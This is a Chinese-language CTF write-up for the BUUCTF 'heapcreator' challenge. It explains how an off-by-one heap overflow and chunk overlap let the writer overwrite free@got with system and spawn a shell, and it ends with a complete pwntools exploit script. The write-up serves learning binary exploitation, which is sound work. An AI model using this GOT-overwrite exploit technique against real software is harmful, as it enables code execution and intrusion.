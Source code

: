 ### Off By One 结合 Chunk Overlap（伪造堆块修改指针）

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67dfaac588c538a9b5c5063f.png)

create()，一次请求申请了两个 chunk，前一个 chunk 里记录着后一个 chunk 的指针和 size

![](https://pic1.imgdb.cn/item/67dfac1488c538a9b5c50815.png)

第 19 行明显 off by one 漏洞

![](https://pic1.imgdb.cn/item/67dfb1d788c538a9b5c509fd.png)

首先分别 add 四个分别为 0x18、0x10、0x10、0x10 的堆块

这样就有 1个 0x18，7 个 0x10 的堆块了

其中 chunk3 中写入的 `'/bin/sh\x00'` 后面要利用到

**chunk0 申请为 0x18 的原因是这样申请拿到了一个 size=0x20 的堆块，因为需要对齐**

写入数据时只往本堆块写入 0x10，下个 chunk 的 prev_size 域来补足这 0x8

这样就可以溢出到下一个 chunk 的 prev_size，然后再溢出 1 字节，利用 off by one 修改下一个 chunk 的 size，触发 chunk overlap

```python
add(0x18,'hhhh')		# chunk0
add(0x10,'aaaa')		# chunk1
add(0x10,'pppp')		# chunk2
add(0x10,b'/bin/sh\x00') # chunk3
```

![](https://pic1.imgdb.cn/item/67dfcfc188c538a9b5c511c8.png)

查看详细的内存

![](https://pic1.imgdb.cn/item/67dfd0d288c538a9b5c511f4.png)

利用 off by one 修改 chunk1 的的 size，并把 chunk1 free 掉

```python
payload1 = b'a' * 0x18 + p8(0x81)

# chunk0 溢出修改 chunk1
edit(0,payload1)
delete(1)
```

![](https://pic1.imgdb.cn/item/67dfd21988c538a9b5c51237.png)

![](https://pic1.imgdb.cn/item/67dfd36c88c538a9b5c5128e.png)

此时在申请一个`0x70`大小的chunk，就能将这个`0x80`块申请出来

此时 chunk2 的指针没有更改，系统创建的 chunk2 还是存放着用户创建的 chunk2 的地址

我们可以将该地址修改成 `free@got` 的地址，泄露出 libc 的地址

重新申请 fake_chunk，并堆溢出修改 chunk2 中存放的 chunk2 地址为 free_got 地址

```python
size = 0x8
payload2 = b'a' * 0x40 + p64(size) + p64(elf.got["free"])
add(0x70,payload2)
gdb.attach(io)
pause()
```

![](https://pic1.imgdb.cn/item/67dfd47788c538a9b5c512be.png)

成功修改为 free_got 地址

![](https://pic1.imgdb.cn/item/67dfd4e788c538a9b5c512ee.png)

通过 show(2) 输出 chunk2 里指向的 free_got 里的 free 函数地址，用这个地址泄漏 libc，并计算得到 system 的地址

```python
show(2)
io.recvuntil("Content : ")

free_addr = u64(io.recvuntil("Done")[:-5].ljust(8,b'\x00'))
```

修改 free_got 为 system 的地址

free(chunk3) 后利用之前写好的 `"/bin/sh\x00"` 执行 `free("/bin/sh\x00")`，由于 free_got 被修改为 system 的地址

所以这里执行 `system("/bin/sh\x00")`，拿到 shell

```python
payload3 = p64(system)
edit(2,payload3)
delete(3)
```

完整 payload

```python
from pwn import *
from LibcSearcher import *

io = process("heapcreator")
#io = remote("node5.buuoj.cn",27164)
elf = ELF("./heapcreator")

def add(size,content):
    io.recvuntil("Your choice :")
    io.sendline("1")
    io.recvuntil("Size of Heap : ")
    io.sendline(str(size))
    io.recvuntil("Content of heap:")
    io.send(content)

def edit(index,content):
    io.recvuntil("Your choice :")
    io.sendline("2")
    io.recvuntil("Index :")
    io.sendline(str(index))
    io.recvuntil("Content of heap : ")
    io.send(content)

def show(index):
    io.recvuntil("Your choice :")
    io.sendline("3")
    io.recvuntil("Index :")
    io.sendline(str(index))

def delete(index):
    io.recvuntil("Your choice :")
    io.sendline("4")
    io.recvuntil("Index :")
    io.sendline(str(index))

add(0x18,'hhhh')
add(0x10,'aaaa')
add(0x10,'pppp')
add(0x10,b'/bin/sh\x00')
#gdb.attach(io)
#pause()

payload1 = b'a' * 0x18 + p8(0x81)

edit(0,payload1)
delete(1)
#gdb.attach(io)
#pause()

size = 0x8
payload2 = b'a' * 0x40 + p64(size) + p64(elf.got["free"])
add(0x70,payload2)
gdb.attach(io)
pause()

show(2)
io.recvuntil("Content : ")

free_addr = u64(io.recvuntil("Done")[:-5].ljust(8,b'\x00'))

libc = LibcSearcher("free",free_addr)
libc_base = free_addr - libc.dump("free")
system = libc_base + libc.dump("system")

payload3 = p64(system)
edit(2,payload3)
delete(3)

io.interactive()
```

